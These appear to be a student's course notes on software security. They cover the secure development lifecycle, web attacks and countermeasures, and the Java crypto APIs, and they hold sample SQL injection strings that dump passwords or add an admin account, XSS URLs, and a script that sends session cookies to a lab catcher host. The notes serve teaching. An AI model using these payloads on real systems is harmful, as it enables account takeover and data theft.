




# Introduction

## CIA
* Confidentiality: Sensitive Data has to be protected from read access
* Integrity: Data and system must be protected from unauthorized modification
* Availability: Information has to be available when needed

Depending on the system, not all of them are equally important.

## Approaches towards Secure Software
* Penetrate and Patch: Patch when security vulnerabilities are discovered
  * If bad actors finds vulnerability, they are likely exploited
  * Patches may not be installed or patched may introduce new vulnerabilities
* Network Security Devices (Web Application Firewall)
  * Increase security but cannot regonize all attacks
  * Correct configuration requires big effort
* Secure Development Lifecycle: Focus on security during development of product

All three methods need to be implemented and there is no guarantee for 100% security.

## Terminology
* Malware: Malcious Software to distrubt operation, gather data or gain access to private computer systems
  * Virus: Requires host program and user action to spread or execute
  * Worm: Stand-Alone Software that does not require host program and spread automatically without user interaction
  * Trojan: Imposter that disguises itself but does not spread
* Security Defects:
  * Security Bug: Introduced during implementation of software and is easily detectable by automatic code inspection
  * Security Design Flaw: Introduced during design phase of software, much more difficult to spot
    * Example: Poker software used poor random number generator (implementation was technically correct but design was incorrect)
* Vulnerability: Security Bug or Security Design Flaw in software
* Thread: Danger that might exploit vulnerability (intentional or accidental)
* Explot: Actual attack that takes advantage of vulnerability
* Asset: Hardware, Data, Software that is valuable
* Risk: Criticallity of thread or vulnerability
* Countermeasure: Action, device that reduces risk

# Secure Development Lifecycle
* Apply security activities during different phases of software development
* Can be applied to any software development process



* Security Requirements:
  * Define security requirements based on functional requirements (e.g. we need to transmit credit card information -> communication must be done over cryptocally secure channel)
  * But not all security can be derived from functional requirements -> Thread modelling
  * Should not include technical details
* Thread Modelling:
  * Identify Security Design Flaws based on existing Security Requirements and Security Controls
  * This is done from the point of view of an attacker: Identify possible threads and based on these, identify vulnerabilities in the design
  * This vulnerabilities are then included in the requirements
* Security Design / Controls
  * Include all security measures to secure the system based on security requirements
  * This can include more technical details such as the used framework, API etc.
* Secure Coding:
  * Implement Security Design / Controls as specified and no bugs are introduced
  * Be "careful" when writing code and understand technology
* Code Review:
  * Goal: Find Security Bugs (account for approx. 50% of software security problems)
  * Usually done automatically; only manually for very critical parts
* Penetration Testing:
  * Take attackers view and try to find and exploit vulnaerabilities in a live system
* Security Operations:
  * All security related operations while system is in operation: Updating, backups, system & network monitoring

## Security Risk Analysis
* Determines the risk of problems detected during the execution of security activities

# Software Security Errors
* Security Activities:
  * Security Design / Controls
  * Secure Coding
* In SWS the Gary McGraw's Taxonomy of Software Security Errors are used
* [https://vulncat.fortify.com](https://vulncat.fortify.com)

## Input Validation and Representation
* Problem: Data that is received by application is not validated
* Solution: Validate all incoming data that is received by the application
  * Sometimes difficult because data can be encoded in different ways

## API Abuse
* Programmer does not use API (function or method) correctly or makes incorrect assumptions about offered functionality
* e.g. dangerious methods in C, unchecked return values

## Security Features
* Wrong usage of security features
* To prevent this, do not invent own security functions
* e.g. using weak encryption that is known to have been broken in the past

## Time and State
* May occur when different system, processes, threads access the same data ressource
* e.g. deadlocks (availability problems), re-using session ids

## Error Handling
* Errors are often not handled correctly
* e.g. leakage of stack trace, empty catch block

## Code Quality
* Poor code quality increases likelyhood of errors and security bugs
* e.g. poor variable names, too long and complex classes/methods...
  * depricated code, unreleased memory

## Encapsulation
* Strict boundaries between users, programs and data
* e.g. put session information in hidden forms, cross-site request forgery

## Environment
* Software does not run by itself but relies on other Software
  * JVM, Framework, Libraries etc.

# Web Application Security Testing
* Security Activities:
  * Penetration Testing

Example of raw GET and POST requests:


## Injection Attacks
* Application accepts data that is "interpreted" e.g. as SQL command, OS commands etc.

### SQL Injection
* Input data is interpreted as SQL commands due to wrong usage (building SQL queries using string concatination)
* This can be used to get information about the underlining database (table names etc.) and use this to gather information like usernames or passwords etc.
* Checking for SQL injection errors can be done by inserting single quote characetr `'` to check whether this produces an error
* Countermeasures:
  * Always use prepared statements and not string concatination
  * Perform input validation (but might be tricky)
  * Do not populate error information to user

Example for `UNION`:
```sql
-- executed query:
SELECT * FROM user_data WHERE last_name = '<parameter>'

-- injected string:
-- Smith' UNION SELECT userid,first_name,last_name,password,5,6,7 FROM employee WHERE '' = '

-- resulting query:
SELECT * FROM user_data WHERE last_name = 'Smith' UNION SELECT userid,first_name,last_name,password,5,6,7 FROM employee WHERE '' = ''

-- even simpler:
SELECT * FROM user_data WHERE last_name = 'Smith' UNION SELECT userid,first_name,last_name,password,5,6,7 FROM employee--'
```

Multiple Queries (only possible if program supports the execution of multiple statements at once):
```sql
-- executed query:
SELECT * FROM user_data WHERE last_name = '<parameter>'

-- injected string:
-- Smith'; UPDATE employee SET password = 'foo'--

-- resulting query:
SELECT * FROM user_data WHERE last_name = 'Smith'; UPDATE employee SET password = 'foo'--'
```

Example for `INSERT`:
* Inserts additional user with more privileges
```sql
-- executed query:
INSERT INTO User (type, username, password) VALUES ('user', '<parameter1>', '<parameter2>')

-- injected string for parameter2:
-- userpass'), ('admin', 'Superuser', 'adminpass')--

-- resulting query:
INSERT INTO User (type, username, password) VALUES ('user', 'parameter1', 'userpass'), ('admin', 'Superuser', 'adminpass')--')
```

#### BURP Suite
TODO
#### sqlmap
TODO

### OS Command Injection
* Possible if progam invokes commands in the underlying operating system

Example:
TODO

### XML and JSON Injection
* Possible if XML or JSON strings are generated with using user passed data

Example for JSON:
TODO

Example for XML:
TODO

## Broken Session and Authentication Management

### Broken Authentication
* Issues that allow to get credentials: guessing or resetting
* Online-Attack to guess password:
  * If there is no limit for trying username and password combination, online attacks are possible
  * More efficient if usernames are known: 
    * login behaves differently with known/unknown usernames
    * try to create account -> error if username is already taken
  * Can be done using burb (using cluster bomb) and checking respone length
  * Countermeasures:
    * Slow the user down, but no lock-out as this allows DoS attacks
    * No weak passwords
    * Do not reveal if user exists and add CAPTCHAS at account creation sites
* Attack using password reset:
  * Weak password reset functionality, (e.g. only two security questions required from user)
  * Countermeasures:
    * Do not offer self-service at all
    * Not easy to guess security questions
    * Temporary link to registered e-mail address that is only valid for short amount of time

### Broken Session
* Issues relating to the session ID: guessing, accessing session ids, session fixation, timeout and rotation issues
* Guessing session ids:
  * Session ids that are easily guessable are an issue as the attacker may gain access by guessing session id
  * Countermeasures:
    * Verify entropy of session IDs by using tools such as burb (at least 128 bits)
* Session-Fixation:
  * Attacker gives session id to victim and victim performs actions using attackers session id (e.g. adding credit card information)
    * Works best if session ids can be transmitted via URL: attacker can send victim email using prepared URL
  * Attacker gives unauthenticated session id to victim and victim logins to application -> attacker now has access to victims account
  * Countermeasures:
    * Change session id after login
    * Only use cookies and no URL parameters
    * Use session timeouts

## Cross-Site-Scripting
* Inject JavaScript code into webpage that is viewed by other users
* Using this, sessions can be hijacked, integrate fake login forms, send arbitrary requests
* Server-Side XSS: Created JavaScript code is integrated into the page on server side and send back to the client
* Client-Side XSS: Create JavaScript code is integrated into page on client side (e.g. from JSON response)

Example to get cookies:
```javascript
<script>
XSSImage=new Image;
XSSImage.src='http://ubuntu.test/attackdemo/WebGoat/catcher/catcher.php?cookie=' + document.cookie;
</script>
```

### Reflected XSS
* Also called non-persistent
* Example could be that the attacker prepares link: `https://example.com?search=<script>alert('test')</script>`
  * Link is processes by server and javascript is directly included in the page
* Other example using post requests:
  * Attacker sends user email to own website with link
  * If user clicks link, theres a hidden form which automatically submits the form

### Stored XSS
* JavaScript code is permantely stored on the server (e.g. in a database that serves data for a guest book)

### DOM-based XSS
* No server is involved at all, everything happens in the browser
* Example:
  * Include JavaScript code using `#` symbol that is not send to server:
  * `http://ubuntu.test/attackdemo/general/DOMbased_XSS1.html#<script>alert("XSS");</script>`
  * Some browsers do detect but some do not
* CSP does not help against this:
  * Only prevents the direct insertion of JavaScript code into the page, but if external JavaScript file (that is allowed) inserts JavaScript code to the page, this is permitted

### Counter Measures:
* Everything that is put on the page has to be sanitized
* Browsers also offer counter measures:
  * Check if last requests contains the same JavaScript code block that is going to be executed -> likely attack and code is not executed
  * [http://lwn.net/Articles/360424](http://lwn.net/Articles/360424)
* Content Security Policy
* DOM-based XSS:
  * Write secure JavaScript code (do not use `unescape()` or `eval()`)

### Content Security Policy (CSP)
* Defines which **web-content** can be loaded at **which locations**
* Is comunicated to the browser using a HTTP header in the response
* JavaScript code can now **only** be executed in separate files that need to be allowed
* Example: Everything is allowed from own domain: `Content-Security-Policy: default-src 'self'`
* Example: Everything is allowed from own domain, but images are allowed from anywhere, media files only from media1.com, media2.com and scripts only from scripts.supersecure.com
  * `Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src scripts.supersecure.com`

## Broken Access Control
* Vulnerabilities that allow attacker to execute actions or access data for which he has no permissions

### Broken Function Level Access Control
* User can access function for which he has no permission
* e.g. view all open orders as customer by accessing link directly

### Broken Object Level Access Control
* User has rights to access function but uses this right to access objects for which he is not authorized
* e.g. user can modify his own products but due to vulnerability he is also able to edit other users products
* Requires the exposure of some kind of identifier to the attacker which can be manipulated

### Countermeasures
* Check function and object access
* Expose identifier as little as possible

## Cross Site Request Forgery
* Force other user (victim) to execute unwanted actions
* This is achieved because cookies are always send to the host from which this cookies stems regardless of the origin of the request
* Example:
  * Website where users can post comments
  * Create other website with hidden form that create POST request to this website
  * Trick other users to click on link to your website that triggers request to comments website and posts a comment in their name
* Countermeasures:
  * Use CSRF-Tokens that are tied to user session and are included in each form on the real webpage (attacker cannot guess this token)
  * Use SameSite property for cookies (not supported by all browsers):
    * `SameSite=None`: Cookies are included in all Cross-Origin requests
    * `SameSite=Lax`: Cookies are only included in GET Cross-Origin requests
    * `SameSite=Strict`: Cookies are never included -> disadvantage because if a user click on link to your website if logged in, the cookie will not be send and the user is not authenticated anymore

## Webapplication Security Testing Tools



# Buffer Overflows and Race Conditions
* Security activities:
  * Secure Coding

## Buffer Overflows
* Stack Frame: Defines the area on the stack for a specific function
* Base Pointer (rbp): Points to bottom end to currently used stack frame
* Stack Pointer (rsp): Top most entry of the stack

# Fundamental Security Principles
* Security Activities:
  * Security Requirements
  * Thread Modelling
  * Security Design / Controls

## Secure Weakest Link
* Security is determined by weakest component
* Identification of this component is done using thread modeling and penetration tests with combination of risk analysis
* Example:
  * server includes header Server: Apache httpd 2.4.46 (risk: low)
  * no password policy enforced (risk: high)
  * access control vulnerability allows users to view statistics of webshop (risk: medium)
  * -> the item with the highest risk is taken because it is the weakest link

## Defense in Depth
* Risk should be managed by multiple defense strategies
* Example:
  * Traffic in internal network is not encrypted because it is behind firewall
  * Attacker gains access to internal network and sees unencrypted traffic
  * To improve, Defense in Depth should be implemented by also encrypting internal traffic although there is already the firewall in place
* Prevent / Detect / Contain / Recover:
  * Prevent: Password-guessing can be prevented with good password policies
  * Detect: Monitor server logs
  * Contain: Lock targeted accounts
  * Recover: Request users to change their password

## Fail Securely
* In case of failure, the security of the system must not be compromised
* e.g. do not fallback on insecure version for TLS communication

## Principle of Least Privilege
* User or program should have the least amount of privileges to accomplish a task
* Usually this is done because it simplifies things (e.g. give program sudo rights and don't worry about permissions)
* e.g. web applications use SQL user that has full permissions on database (DDL and DML)

## Seperation of Privileges
* Prevent a single user to carry out a single action, enforce four-eye principle
* IT world: entity that approves action, entity that carries out action and entity that monitors action
* Difficult because for small companies not enough people available
* e.g. four-eye principle, seperate teams deploys software than developing software

## Secure by Default
* Programs and operating systems shuold be secure by default means the user does not need or do minimal manual configuration

## Minimize Attack Surface
* Attack surface is sum of different points an attacker can potentially attack (e.g. open ports, APIs, web forms)
* To avoid this, minimize features (reduce complexity), only install necessary software use packet filtering firewalls etc.

## Keep Security Simple
* Make sure software is developed as simple as possible as complexity increases security risk
* Also make usage of software as simple as possible and don't expect users to be experts
* Users should be able to use the software in a secure and simple way
* Do not allow to turn of security features in software

## Avoid Security by Obscurity
* Security of system only relies on fact that implementation details are hidden
* Binaries of source code can be decompiled and reveal implementation details
* It is not totally a bad thing if not used as only measure but on top of other good methods

## Don't Trust User Input and Services
* Always consider data from users and other system harmful and data should always be validated
* Use whitelisting instead of blacklisting (whitelist is easier to maintain)

# Java Security
* Security Activities:
  * Secure Coding
* Uses a provider based architecture, allows plugin in different providers
* Providers can be specified when objects are created via `getInstance()`
* Additional providers can be added to: `$JAVA_HOME/conf/security/java.security`
* List of parameters for `getInstance()` https://docs.oracle.com/en/java/javase/17/docs/specs/security/standard-names.html

## Hashes
```java
MessageDigest hashFunction = MessageDigest.getInstance("SHA3-512"); // MD5, SHA1, SHA-256, SHA-512, SHA3-256, SHA3-512

hashFunction.update(); // feed single and multiple bytes but do not hash
hashFunction.digest(); // receive hash

byte[] input = new byte[15];
hashFunction.digest(input); // directly compute hash without update
```

## Random Numbers
* Use class `SecureRandom`
* SecureRandom uses underlying OS functions for randomness which can be TRNG (True Random Number Generators) or PRNG (Pseudo Random Number Generators)
```java
byte[] output = new byte[32];
SecureRandom random = new SecureRandom();
random.nextBytes(output);

SecureRandom.getInstance("SHA1PRNG"); // specify algorithm explicitly
```

## Secret Keys
* Secret keys are used for secret key ciphers and for message authentication codes
* Parameter "AES" allows the check of correct key size (e.g. for AES only 128, 192 and 256 are allowed)
```java
// use KeyGenerator class
KeyGenerator keyGen = KeyGenerator.getInstance("AES");
keyGen.init(128); // keysize
SecretKey key = keyGen.generateKey(); // generate key

keyGen.init(128, SecureRandom.getInstance("SHA1PNRG")); // provide own instance of secure random

// use own byte array
byte[] rawKey = ...;
SecretKeySpec keySpec = new SecretKeySpec(rawKey, "AES"); // SecretKeySpec is subclass of Key interface and can also be used as Key
```

## Secret Key Cryptography
* Selection of algorithms:
  * `AES/CBC/PKCS5Padding`: AES in CBC mode with PKCS5Padding
  * `DESede/CTR/NoPadding`: 3DES in CTR mode (CTR doesn't use padding)
  * `AES/GCM/NoPadding`: AES in GCM mode (GCM doesn't use padding)
  * `RC4`, `CHACHA20`: Stream ciphers
  * If no values for block mode and padding are provided `ECB` (insecure) and `PKCS5Padding` is used for AES
* `update()`: Only encrypt block of bytes and returns the block and keeps the rest within the cipher
  * Next call will again encrypt only a block of bytes
  * For stream ciphers the complete input will be encrypted
* `doFinal()`: Can either be used to encrypt a whole input string or to finalize encryption with udpate()
  * Also handles padding and MAC checking
  * Has to be called every time to finish encryption/decryption
* Some ciphers required initialization vectors
```java
Cipher cipher = Cipher.getInstance("algorithm");
cipher.init(mode, key); // Cipher.ENCRYPT_MODE, Cipher.DECRYPT_MODE

cipher.update();
cipher.update(input);
cipher.doFinal();
cipher.doFinal(input);
```

## Public Key Cryptography

### Keys
```java
KeyPairGenerator keyPairGen = KeyPairGenerator.getInstance("RSA");
keyPairGen.initialize(2048); // 2048, 3072, 4096 (1024 is bad)
KeyPair keyPair = keyPairGen.generateKeyPair();
PublicKey publicKey = keyPair.getPublic();
PrivateKey privateKey = keyPair.getPrivate();
```

### Encryption / Decryption
* Encrypt using Public Key
* Decrypt using Private Key
* Selection of algorithms:
  * `RSA/ECB/OAEPPadding`: RSA with OAEPPadding (≡ PKCS #1 v2 padding)
  * `RSA/ECB/PKCS1Padding`: PKCS #1 v1.5 padding
  * If values for block mode and padding are provided `ECB` and `PKCS1Padding` is taken for RSA
```java
Cipher cipher = Cipher.getInstance("algorithm");
cipher.init(Cipher.ENCRYPT_MODE, publicKey);
cipher.init(Cipher.DECRYPT_MODE, privateKey);

// same with doFinal() and update() like secret key cryptography
```

### Signatures
```java
Signature signing = Signature.getInstance("SHA512withRSA");

// sign
signing.initSign(privateKey);
signing.update(data-to-sign);
byte[] signature = signing.sign();

// verify
signing.initVerify(publicKey);
signing.update(data-that-has-been-signed);
boolean signatureValid = signing.verify(signature);
```

## Java Secure Sockets
* keystore: contains private keys and their certificates
* truststore: contains trusted certificates (and no keys)
* party that authenticates itself (usually the server) needs a keystore
* party that authenticates the other endpoint (usually the client) needs a truststore
* Default configuration is secure

# Developing Secure Modern Web Applications
* JakartaEE REST API
  * Using `<security-constraint>` to redirect from HTTP to HTTPS makes no sense since the application is only called internally -> just disable HTTP communication altogether

## Security Tokens
* Security Tokens are used for stateless authentication for a REST service
  * Should not be guessable by attacker
  * Should be expirable
  * Checking token should only require small computational effort
  * Should ideally be stateless
* JSON Web Tokens (https://jwt.io)



* HMAC is used for protection:
  * HMAC is calculated for header + payload with a secret key and is also attached to the encoded JWT that the client receives
  * To verify, the server calculates again the HMAC over header + payload with the secret key and compares it to the received HMAC string
* But RSA is also supported which makes sense for multiple systems as these systems only need to have the public key and only the issuing system needs the private key
* JWT are send to the application using the BEARER scheme:
  * `Authorization: Bearer <token>`

## Cross Origin Ressource Sharing
* Origin is a combination of protocol, host and port: Only if all three are equal two origins are also considered equal
* Requests that are made with JavaScript (using XMLHttpRequest object or FetchAPI) are not allowed to do all types of cross-origin requests by default
* Only simple requests are allowed:
  * GET or POST requests, Only cookies are included (no authorization headers), only limited set of Content-Types (no `application/json`), Response cannot be accessed
  * Are basically the same requests which are allowed in traditional web-applications:
    * e.g. a malcious website could make a javascript request to e-banking to do payment because cookies are send etc.
* Example:
```
Access-Control-Allow-Origin: * (all origins are allowed to make requests to this API)
Access-Control-Allow-Methods: OPTIONS, GET, POST, PUT, DELETE (allowed methods)
Access-Control-Allow-Header: * (any header)
```
* That the browser knows what type of requests are allowed, so called "preflight" requets are made (using OPTIONS)

## CSRF Protection
* One easy way to circumvent CSRF attacks is to only allow the own host in the CORS response
* But this might not be possible in case the API needs to be callable anywhere
* Using cookies is not good because cookies are always included in the request by default and with JavaScript can be included by setting `xhr.withCredentials` to true

### Web Storage API
* To store the authentication token securely so that it cannot be accessed by malcious attackers is the web-storage API
* Session Storage: Stored data is private per window/tab
* Local Storage: Stored data is shared within windows/tabs
* Attacker cannot access storage if JavaScript code is not executed on the same origin
* But XSS attacks need to be prevented at all costs otherwise attacker might steal authentication token

## XSS Attacks
* Reflected or Stored Server-Side XSS attacks are not an issue as long as no page is generated on the server-side
* But DOM-Based and Client-Side Reflected or Stored XSS attacks are an issue

# Security Requirements Engineering and Threat Modeling
* Security activities:
  * Security Requirements
  * Thread Modelling

# Security Risk Analysis